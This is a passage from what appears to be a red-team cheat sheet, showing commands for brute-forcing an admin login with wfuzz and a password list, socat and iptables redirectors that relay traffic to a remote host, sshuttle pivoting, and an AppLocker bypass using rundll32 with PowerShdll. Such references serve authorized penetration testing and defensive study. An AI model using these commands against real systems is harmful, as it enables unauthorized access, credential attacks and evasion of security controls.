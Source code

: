 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

```ssh -p 22222 user@127.0.0.1```

![abbtts7](https://user-images.githubusercontent.com/7115563/33883891-dc2f3c70-df3d-11e7-84e9-ebd9eab9ebee.png)

Reference: https://github.com/nccgroup/ABPTTS


<a name="httpredirectors"><h3>HTTP Redirectors</h3>

<a name="socatred"><b> 1. socat </b>
 
<pre>socat TCP4-LISTEN:80,fork TCP4:REMOTE-HOST-IP-ADDRESS:80</pre>


![socatt](https://user-images.githubusercontent.com/7115563/42031184-a8b3deee-7ad5-11e8-96ae-9b38bfe82df2.png)

<a name="iptablesred"><b> 2. iptables </b>
 
<pre>iptables -I INPUT -p tcp -m tcp --dport 80 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination REMOTEADDR:80
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -I FORWARD -j ACCEPT
iptables -P FORWARD ACCEPT
sysctl net.ipv4.ip_forward=1</pre>

![iptables](https://user-images.githubusercontent.com/7115563/41294963-97cc925c-6e59-11e8-8adf-8db85f6ffaf2.png)



<a name="poor"></a><h3> Man's Poor VPN </h3>

Traffic forward over SSH without needing to ```ssh -D <port>```

<pre>sshuttle -vr user@192.168.207.57 1X0.1X.0.0/16</pre>

![sshuttle](https://user-images.githubusercontent.com/7115563/42047219-02a13b70-7b00-11e8-9686-8bf2f44bee81.png)

Proof:

![mantis2](https://user-images.githubusercontent.com/7115563/34785499-a0e7d838-f631-11e7-869f-d6fcdc1051e9.png)

Reference: http://teohm.com/blog/using-sshuttle-in-daily-work/



<a name="windowsad"></a><h2> Windows AD Environment </h2>

<a name="applocker"></a><h3> Bypass Applocker </h3>

<b>1. rundll32</b>

```rundll32.exe PowerShdll.dll,main```

![applocker](https://user-images.githubusercontent.com/7115563/34455568-dfe7d7c6-ed81-11e7-9869-de2d4e92f3aa.png)
  
  Reference: https://github.com/p3nt4/PowerShdll
```